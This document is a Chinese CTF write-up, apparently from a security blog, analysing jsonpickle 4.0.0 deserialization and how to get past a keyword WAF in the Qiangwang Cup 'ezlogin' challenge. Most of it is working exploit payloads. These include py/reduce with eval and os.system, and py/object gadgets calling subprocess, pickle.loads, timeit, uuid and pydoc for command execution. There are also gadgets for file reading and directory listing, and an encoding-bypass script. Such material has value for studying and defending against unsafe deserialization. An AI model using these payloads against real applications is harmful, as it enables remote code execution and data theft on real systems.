





# 从源码看JsonPickle反序列化利用与绕WAF-先知社区

> **来源**: https://xz.aliyun.com/news/16133  
> **文章ID**: 16133

---

# 前言

源自强网杯决赛的一道题ezlogin，hint提供了部分源码

```
if not waf(token):
    return 'Invalid token'
token = jsonpickle.decode(token, safe=True)
if time() - token.timestamp < 60:
    if token.username != 'admin':
        return f'Welcome {token.username}, but you are not admin'
    return 'Welcome admin, there is something in /s3Cr3T'
return 'Invalid token'

```

`jsonpickle.decode`存在反序列化漏洞，问题在于WAF的绕过。

下面以最新版的`jsonpickle 4.0.0`进行分析

# JsonPickle简介

参考官方文档 [jsonpickle documentation](https://jsonpickle.github.io/)

Python的内置库`json`以及`simplejson`、`ujson`等第三方JSON解析库，只能处理Python的基础数据类型（dict、list、str、int等）

`jsonpickle`应运而生，用于将更加复杂的Python对象序列化和反序列化为JSON。

简单来说，`jsonpickle`首先基于用户可配置的JSON 后端（`JSON Backend`，比如内置库`json`、第三方库`simplejson`等），先将Json字符串转为Json对象（即Dict）之后，再根据Json对象中键代表的特殊标签，来进一步恢复Python对象。

[CVE-2020-22083](https://github.com/advisories/GHSA-j66q-qmrc-89rx) 就爆出了这个库存在不安全的反序列化漏洞，但官方的态度认为这是开发人员需要注意的事情，而不是库本身的锅。  
  
官方文档也声明了，对于未受信任数据的反序列化，考虑使用HMAC对数据进行签名以防止被篡改，或者使用内置库JSON这种安全的反序列化方法。

## 反序列化流程分析

上面说到`jsonpickle`是通过标签来恢复Python对象的，下面尝试序列化一个Token对象

（`@dataclass`修饰器跟Java中的`lombok`注解类似，用于自动给类添加方法 `__init__`, `__repr__`等）

```
from dataclasses import dataclass
from time import time
import jsonpickle

@dataclass
class Token:
    username: str
    timestamp: int

t = Token("admin", int(time()))
print(jsonpickle.encode(t))
# {"py/object": "__main__.Token", "username": "admin", "timestamp": 1733814799}

```

打印得到的`py/object`便是标签，用来表示一个Python对象。支持的标签见`jsonpickle/tags.py`，这些标签对应的处理函数见`jsonpickle/unpickler.py`。

下面看一下反序列化的流程

```
from .backend import json

def decode(
    string,
    backend=None,
    context=None,
    keys=False,
    reset=True,
    safe=True,
    classes=None,
    v1_decode=False,
    on_missing='ignore',
    handle_readonly=False,
):
    backend = backend or json
    context = context or Unpickler(...)
    data = backend.decode(string)
    return context.restore(data, reset=reset, classes=classes)

```

可以看到包括JSON后端（`backend`）、反序列化上下文（`context`）都是用户可以指定的

尝试探测本地是否有如下库`simplejson`、`json`、`ujson`、`yaml`，来作为默认的JSON后端



可惜这里获取的是`yaml#safe_load`，不然目标若存在`pyyaml`依赖也可考虑直接打yaml反序列化。

接着尝试遍历导入的所有JSON后端来解析，解析成功则返回，报错则换下一个JSON后端

```
def decode(self, string):
        """
        Attempt to decode an object from a JSON string.

        This tries the loaded backends in order and passes along the last
        exception if no backends are able to decode the string.
        """
        for idx, name in enumerate(self._backend_names):
            try:
                return self.backend_decode(name, string)
            except self._decoder_exceptions[name] as e:
                if idx == len(self._backend_names) - 1:
                    raise e
                else:
                    pass

```

经过JSON后端的初步解析后，`Unpickler#_restore_tags`开始根据标签恢复Python对象，标签和对应的处理函数如下



我们关注其中一些有意思的标签

# 标签利用

## py/type

```
def _restore_type(self, obj):
    return loadclass(obj[tags.TYPE], classes=self._classes)

```

```
def loadclass(module_and_name, classes=None):
    """Loads the module and returns the class.

    >>> cls = loadclass('datetime.datetime')
    >>> cls.__name__
    'datetime'

    >>> loadclass('does.not.exist')
    >>> loadclass('builtins.int')()
    """
    # Check if the class exists in a caller-provided scope
    if classes: pass
    # Otherwise, load classes from globally-accessible imports
    names = module_and_name.split('.')
    # First assume that everything up to the last dot is the module name,
    # then try other splits to handle classes that are defined within
    # classes
    for up_to in range(len(names) - 1, 0, -1):
        module = util.untranslate_module_name('.'.join(names[:up_to]))
        try:
            __import__(module)
            obj = sys.modules[module]
            for class_name in names[up_to:]:
                obj = getattr(obj, class_name)
            return obj
        except (AttributeError, ImportError, ValueError):
            continue
    # NoneType is a special case and can not be imported/created
    if module_and_name == "builtins.NoneType":
        return type(None)
    return None

```

注释也写的很详细了，首先会尝试`__import__`最后一个点号（`.`）前面的内容作为`module`，再通过`getattr`获取对应的属性，并且这里能够递归地获取属性。

获取失败则回退一个点号（`.`）继续尝试。

## py/function

```
def _restore_function(self, obj):
    return loadclass(obj[tags.FUNCTION], classes=self._classes)

```

虽然名叫`_restore_function`恢复函数，实则和恢复类`_restore_type`的方式是一套的

## py/mod

```
def _restore_module(self, obj):
    obj = _loadmodule(obj[tags.MODULE])
    return self._mkref(obj)

```

```
def _loadmodule(module_str):
    """Returns a reference to a module.

    >>> fn = _loadmodule('datetime/datetime.datetime.fromtimestamp')
    >>> fn.__name__
    'fromtimestamp'

    """
    module, identifier = module_str.split('/')
    result = __import__(module)
    for name in identifier.split('.')[1:]:
        try:
            result = getattr(result, name)
        except AttributeError:
            return None
    return result

```

这个`_loadmodule`的逻辑其实和上面的`loadclass`类似，也是能够递归地获取属性。

注意这里会忽略`identifier`的第一个元素

到此，我们可以利用这三个标签来泄露目标程序的一些全局信息。（qwb这题可以通过`token.username`回显）

```
{"py/mod": "__main__/x.__dict__"}
{"py/function": "__main__.__dict__"}
{"py/type": "__main__.__dict__"}

```

返回了黑名单

```
'BLACKLIST': ['repr', 'state', 'json', 'reduce', 'tuple', 'nt', '\\\\', 'builtins', 'os', 'popen', 'exec', 'eval', 'posix', 'spawn', 'compile', 'code'],
'waf': <function waf at 0x0000013C192574C0>

```

可惜黑名单把code过滤了，不然可以偷源码，利用的是function对象的`__code__`属性

```
{"py/mod": "__main__/x.waf.__code__.co_code"}

```

`dis`查看汇编

```
import dis

bytecode = b'\x97\x00t\x01\x00\x00\x00\x00\x00\x00\x00\x00j\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00|\x00\xab\x01\x00\x00\x00\x00\x00\x00}\x01t\x01\x00\x00\x00\x00\x00\x00\x00\x00j\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00|\x01d\x01\xac\x02\xab\x02\x00\x00\x00\x00\x00\x00}\x02t\x06\x00\x00\x00\x00\x00\x00\x00\x00D\x00]\t\x00\x00}\x03|\x03|\x02v\x00r\x02\x01\x00y\x01\x01\x00y\x03\x04\x00y\x00'

dis.dis(bytecode)

```

不会逆向，但可以交给AI来做 QAQ





反汇编后和源码一模一样！！！

## py/repr

`jsonpickle`默认开启`safe`，`_restore_repr_safe`是调的`_loadmodule`，实际上也不能利用这个标签

```
if self.safe:
    restore = self._restore_repr_safe
else:
    restore = self._restore_repr

```

但也不妨看看不safe的流程，`_restore_repr`调的`loadrepr`

```
def loadrepr(reprstr):
    """Returns an instance of the object from the object's repr() string.
    It involves the dynamic specification of code.

    .. warning::

        This function is unsafe and uses `eval()`.

    >>> obj = loadrepr('datetime/datetime.datetime.now()')
    >>> obj.__class__.__name__
    'datetime'

    """
    module, evalstr = reprstr.split('/')
    mylocals = locals()
    localname = module
    if '.' in localname:
        localname = module.split('.', 1)[0]
    mylocals[localname] = __import__(module)
    return eval(evalstr, mylocals)

```

导入`/`左边的模块作为locals，`/`右边的作为`eval`的内容

```
{'py/repr': 'os/os.system("calc")'}
# jsonpickle.decode(exp, safe=False)

```

## py/reduce

这个标签是用于模拟pickle序列化时用到的`__reduce__`魔术方法

`__reduce__`返回一个元组用于恢复对象，这个元组的长度可为2~5，后三个元素为可选。

第一个元素为可调用的对象，用于重建对象时调用；第二个元素为参数元组，用于传入可调用对象。

首先对这个标签的值（要求是一个可迭代对象，如列表、元组、集合等）都应用`self._restore`来进行恢复，同样也是经过上面的`_restore_tags`来获取标签对应的处理函数。

接着判断`f`（即获取到的第一个元素）是否为`py/newobj`标签或`__newobj__`方法，若是则调用`__new__`方法，否则就直接执行`f(*args)`。

> 可以看到在python中，对象的实例化和方法的调用，这两者的边界在静态层面是很模糊的
>
> 对于`xxx(yyy)`，得动态运行时才能确定xxx到底是`type`还是`function`
>
> 而不像其他强类型语言得通过`new`关键字来实例化，这也使得python的代码执行更加灵活吧

```
def _restore_reduce(self, obj):
        """
        Supports restoring with all elements of __reduce__ as per pep 307.
        Assumes that iterator items (the last two) are represented as lists
        as per pickler implementation.
        """
        reduce_val = list(map(self._restore, obj[tags.REDUCE]))
        if len(reduce_val) < 5:
            reduce_val.extend([None] * (5 - len(reduce_val)))
        f, args, state, listitems, dictitems = reduce_val

        if f == tags.NEWOBJ or getattr(f, '__name__', '') == '__newobj__':
            cls = args[0]
            if not isinstance(cls, type):
                cls = self._restore(cls)
            stage1 = cls.__new__(cls, *args[1:])
        else:
            stage1 = f(*args)

        if state: pass
        if listitems: pass
        if dictitems: pass

        return stage1

```

可以构造如下payload

```
{'py/reduce': [{'py/function': 'builtins.eval'}, {'py/tuple': ["__import__('os').system('calc')"]}]}

```

## py/object

```
def _restore_object(self, obj):
    class_name = obj[tags.OBJECT]
    cls = loadclass(class_name, classes=self._classes)
    return self._restore_object_instance(obj, cls, class_name)

```

```
def _restore_object_instance(self, obj, cls, class_name=''):
        # An object can install itself as its own factory, so load the factory
        # after the instance is available for referencing.
        factory = self._loadfactory(obj)

        if has_tag(obj, tags.NEWARGSEX):
            args, kwargs = obj[tags.NEWARGSEX]
        else:
            args = getargs(obj, classes=self._classes)
            kwargs = {}
        if args:
            args = self._restore(args)
        if kwargs:
            kwargs = self._restore(kwargs)

        is_oldstyle = not (isinstance(cls, type) or getattr(cls, '__meta__', None))
        try:
            if not is_oldstyle and hasattr(cls, '__new__'):
                # new style classes
                if factory:
                    instance = cls.__new__(cls, factory, *args, **kwargs)
                    instance.default_factory = factory
                else:
                    instance = cls.__new__(cls, *args, **kwargs)
            else:
                instance = object.__new__(cls)
        except TypeError:  # old-style classes
            is_oldstyle = True

        if is_oldstyle:
            try:
                instance = cls(*args)
            except TypeError:  # fail gracefully
                pass

        if isinstance(instance, tuple):
            return instance

        instance = self._restore_object_instance_variables(obj, instance)
        return instance

```

首先通过`loadclass`获取类，和上面的`py/function`和`py/type`一样

接着获取`py/newargsex`、`py/newargs`、`py/initargs`这些标签的值并通过`self._restore`恢复

然后尝试调用`__new__`方法进行实例化，重点就在这里，若实例化失败，则判定为`old-style classes`

调用`cls(*args)`来恢复，和`py/reduce`的做法一样。

接下来就是找一个可以利用的方法了。

列目录：

```
{'py/object': 'glob.glob', 'py/newargs': {'/*'}}

```

```
{'py/object': 'os.listdir', 'py/newargs': ['/']}

```

读文件：

```
{'py/object': 'linecache.getlines', 'py/newargs': ['/flag']}

```

RCE：

```
{'py/object': 'subprocess.run', 'py/newargs': ['calc']}

```

```
{'py/object': 'subprocess.getoutput', 'py/newargs': ['calc']}

```

```
{'py/object': 'pickle.loads', 'py/newargs': [{'py/b64':'KGNvcwpzeXN0ZW0KUydiYXNoIC1jICJjYWxjIicKby4='}]}

```

```
{'py/object': 'timeit.main', 'py/newargs': [['-r', '1', '-n', '1', '__import__("os").system("calc")']]}

```

```
{'py/object': 'uuid._get_command_stdout', 'py/newargs': ['calc']}

```

```
{'py/object': 'pydoc.pipepager', 'py/newargs': ['a', 'calc']}

```

# 编码绕过

`json`作为默认的JSON后端，`loads`不仅支持str也支持bytes

由于是灰盒题，无法判断传入`jsonpickle#decode`的是str还是bytes

如下为`json.loads`源码，若s为字符串，碰到`\ufeff`开头会报错

```
if isinstance(s, str):
    if s.startswith('\ufeff'):
        raise JSONDecodeError("Unexpected UTF-8 BOM (decode using utf-8-sig)",
                              s, 0)
else:
    if not isinstance(s, (bytes, bytearray)):
       raise TypeError(f'the JSON object must be str, bytes or bytearray, '
                            f'not {s.__class__.__name__}')
     s = s.decode(detect_encoding(s), 'surrogatepass')

```

如果是bytes就可以用编码绕过，具体是支持如下编码

```
def detect_encoding(b):
    bstartswith = b.startswith
    if bstartswith((codecs.BOM_UTF32_BE, codecs.BOM_UTF32_LE)):
        return 'utf-32'
    if bstartswith((codecs.BOM_UTF16_BE, codecs.BOM_UTF16_LE)):
        return 'utf-16'
    if bstartswith(codecs.BOM_UTF8):
        return 'utf-8-sig'

    if len(b) >= 4:
        if not b[0]:
            # 00 00 -- -- - utf-32-be
            # 00 XX -- -- - utf-16-be
            return 'utf-16-be' if b[1] else 'utf-32-be'
        if not b[1]:
            # XX 00 00 00 - utf-32-le
            # XX 00 00 XX - utf-16-le
            # XX 00 XX -- - utf-16-le
            return 'utf-16-le' if b[2] or b[3] else 'utf-32-le'
    elif len(b) == 2:
        if not b[0]:
            # 00 XX - utf-16-be
            return 'utf-16-be'
        if not b[1]:
            # XX 00 - utf-16-le
            return 'utf-16-le'
    # default
    return 'utf-8'

```

下面以`utf-32-be`为例

```
import jsonpickle
import codecs

class Token:
    def __init__(self, username, timestamp):
        self.username = username
        self.timestamp = timestamp

data = '{"py/object": "__main__.Token", "username": {"py/reduce": [{"py/function": "builtins.eval"}, {"py/tuple": ["__import__(\'os\').popen(\'whoami\').read()"]}]}, "timestamp": 1733380109.0111294}'

with open('exp_utf32_be.txt', 'w', encoding='utf-32-be') as f:
    f.write(codecs.BOM_UTF32_BE.decode('utf-32-be') + data)

with open('exp_utf32_be.txt', 'rb') as f:
    data_bytes = f.read()

print(data_bytes)
token = jsonpickle.decode(data_bytes)
print(token.username)

```

不过由于WAF先进行`json.loads`，又`json.dumps`指定了`ensure_ascii=False`，使用特殊编码这里就会报错了。

此外，经过这样转换，unicode编码、hex编码等也会失效

```
s = json.loads('{"a":"\\u0072\\u0065\\u0064\\u0075\\u0063\\u0065"}')
print(json.dumps(s)) # {"a": "reduce"}

```
